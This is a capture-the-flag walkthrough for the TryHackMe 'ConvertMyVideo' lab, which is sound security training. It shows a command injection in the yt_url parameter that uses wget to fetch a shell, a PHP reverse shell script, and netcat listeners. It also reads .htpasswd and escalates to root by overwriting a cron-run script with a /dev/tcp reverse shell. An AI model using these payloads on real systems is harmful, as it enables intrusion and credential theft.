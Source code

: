 # [ConvertMyVideo](https://tryhackme.com/room/convertmyvideo)

## My Script to convert videos to MP3 is super secure

# Hack the machine

## You can convert your videos - Why don't you check it out!

### What is the name of the secret folder?

1. Perform initial reconnaissance using Nmap to identify open ports and services

```bash
nmap -sV IP
```

[SCREEN01]

2. Conduct directory enumeration using Gobuster to discover hidden directories
   - The enumeration reveals the secret folder: `/admin`

```bash
gobuster dir -u http://IP -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt
```

[SCREEN02]

---

### What username is required to access the secret folder?

### What is the user flag?

_The folder is protected by Apache authentication._

1. Navigate to the main application at `http://<TARGET_IP>` and examine the video conversion functionality

2. Identify the application's video URL parameter as a potential injection point. Capture the POST request using Burp Suite or similar proxy tool

3. Exploit command injection vulnerability in the `yt_url` parameter by injecting a command to download and execute a reverse shell

   - `` yt_url=`wget${IFS}http://IP:8000/shell.php` ``

[SCREEN03]

4. Create a PHP reverse shell script on the attacking machine

```php
<?php
$ip = '192.168.1.10';
$port = 4444;

$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh -i', array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
?>
```

5. Start an HTTP server to serve the shell script

```bash
python -m SimpleHTTPServer
```

6. Set up a netcat listener to catch the reverse shell

```bash
nc -lvnp 4444
```

7. Submit the malicious payload through the web application, then visit `http://<TARGET_IP>/shell.php` to trigger the reverse shell execution

8. Once the shell is established, navigate to the admin directory and examine its contents

```bash
ls -la
cd admin
ls -la
cat .htpasswd
cat flag.txt
```

[SCREEN04]

---

### What is the root flag?

1. Navigate to the temporary directory where the web application stores files

```bash
cd /var/www/html/tmp
```

2. Create a malicious script that will be executed by the scheduled task

```bash
echo 'bash -i >& /dev/tcp/IP/5555 0>&1' > clean.sh
```

3. Set up a new netcat listener on a different port to catch the privileged reverse shell. Wait for the scheduled task to execute the script. Once the root shell is obtained, retrieve the root flag

```bash
nc -lvnp 5555
ls -la /root
cat /root/root.txt
```

[SCREEN05]
